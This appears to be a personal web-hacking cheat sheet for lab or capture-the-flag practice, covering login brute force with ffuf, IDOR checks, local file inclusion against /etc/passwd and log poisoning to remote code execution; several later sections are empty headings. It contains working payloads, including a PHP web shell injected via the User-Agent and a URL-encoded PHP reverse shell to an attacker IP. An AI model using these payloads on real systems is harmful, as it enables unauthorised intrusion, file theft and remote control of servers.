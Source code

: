 # Web Hacking

## Authenitcation Bypass

- Always look for .js or .php authentication scripts through Network tab (Advanced Tools F12), BurpSuite or Content Discovery. You could encounter authentication flaws.
- Check Cookies, try to decode them

## Brute Force

```bash

ffuf -w passwords.txt -X POST -d "username=username&password=password" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -[fx] [number or "string for fr"]

ffuf -w usernames.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -[fx] [number or "string for fr"]

```

Where -fx could be {fc | fw | fr | fl | fs} which are dual with respect to the matching criteria. For example -fc 200 will return only answers with response codes different from 200 (e.g. 301 permanent redirects for correct login)

## IDOR

IDOR stands for Insecure Direct Object Reference. It is a kind of access control vulnerability arised when an applicetion uses user-input to access directly to objects. IDOR first appeared in OWASP 2007 Top Ten. IDOR is associated with Horizontal Privilege Escalation where an attacker could access reserved object by crafting a specific query.

- Check for IDOR vulnerabilities in encoded HTTP Response or Request Header fields.
- Check for IDOR vulnerabilities in Hashed ID and try to reverse them through [crackstation](https://crackstation.net/)
- Check for IDOR effectiveness by using two different accounts trying to switch among them.
- Check for ALL parameters in Network Tab of browser development tools (F12) for calls to any endpoint.

## LFI & RFI

LFI stands for Local File Inclusion, which is a technique where an attacker tricks a web application to retrieve a specific file from the system through a bad sanitized input form or query. It happens, for example, when requesting `http://targetsite.com/get.php?file=userCV.pdf`. If the "get.php" script is bad designed, a malicious user could force `http://targetsite.com/get.php?file=/etc/passwd`, getting all users on the system. LFI exploits PHP functions such as **include**, **require**, **include_once** and **require_once**. You must test out the URL parameter by adding the `dot-dot-slash` notation.

- Check `http://targetsite.com/get.php?file=../../../../etc/passwd` and similar queries. Generally the target is figuring out where is the "get.php" script executed because the Path Traversal (../../../.. ecc) starts from there.
- If the PHP script makes use of `$_GET['param']."ext"`, you could try to bypass it by means of the null character %00 at the end of the URL (ex. `http://targetsite.com/get.php?file=../../../../etc/passwd%00`). **Solved since PHP 5.4**. 
- Check Wrapper "php://filter" for encoding and decoding a target file: `http://targetsite.com/get.php?file=php://filter/convert.base64-encode/resource=../../../../etc/passwd`. For all Wrappers have a look on [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

### LFI-2-RCE

This means getting command execution on target exploiting LFI. 

- If an Apache server is vulnerable to LFI then you can access to `/var/log/apache2/access.log`. Check what are the Request Header parameters stored in the log (eg. User Agent) and then replace one of them with `<?php system($_GET['cmd']); ?>`. Next time you will access to the log file through LFI, the log file will be executed and so does the php injected script. You should then send a query like this:

      http://targetsite.com/get.php?file=../../../../var/log/apache2/access.log&cmd=whoami
      
      Or, you could spawn a reverse shell:
      
      http://targetsite.com/get.php?file=../../../../var/log/apache2/access.log&cmd=php%20-r%20%27%24sock%3Dfsockopen(%2210.8.32.131%22%2C5000)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27

Where we URL encoded `php -r '$sock=fsockopen("10.8.32.131",5000);exec("/bin/sh -i <&3 >&3 2>&3");'`. This is also known as **Log poisoning**.
For all other LFI-2-RCE (via /proc/self/environ, via upload, via PHPSESSID, via vsftpd logs ecc.) have a look on [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion).

## SSRF

## XSS

## Command Injection

## SQL Injection
